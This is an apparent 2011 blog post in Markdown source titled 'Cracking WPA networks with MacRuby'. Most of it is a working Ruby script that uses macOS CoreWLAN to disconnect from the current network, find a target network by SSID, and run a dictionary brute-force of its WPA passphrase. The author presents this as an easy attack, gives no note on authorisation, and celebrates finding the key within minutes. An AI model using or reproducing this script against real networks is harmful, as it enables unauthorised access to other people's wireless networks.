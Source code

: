 ```yaml
---
title: Cracking WPA networks with MacRuby
created_at: 2011-12-14
---
```


With the release of Mac OSX 10.7 a new method was made available trough the `CoreWLAN` framework, allowing you to associate to networks with the specified passphrase. It's called `associateToNetwork`.

The point is that there's a lot of hype about WPA/WPA2 cracking lately, involving statistical calculation, multi-threaded and cloud-based bruteforce attacks just to conclude in how easy is to break into protected networks using a stupid dictionary attack like the following:

{:lang="ruby"}
    framework "CoreWLAN"

    iface = CWInterface.interface
    iface.disassociate

    wlans = iface.scanForNetworksWithParameters(nil, error: nil)
    wlan = wlans.find {|w| w.ssid == "WLAN_724A"}
    p [wlan.bssid, wlan.ssid, wlan.securityMode, wlan.wlanChannel.channelNumber]

    keys = File.read("./dictionary.txt").lines.to_a.reverse

    keys.each_with_index do |key, index|
      key.chop!
      puts "CURRENT KEY: #{key} (#{index+1}/#{keys.size})"
      if iface.associateToNetwork(wlan, password: key, error: nil)
        puts "KEY FOUND: #{key}"
        exit
      end
    end

And here are the results after barely 3 minutes of execution:

![File and Folder Scanner](/images/wpa-bruteforce.png)

Cool, uh?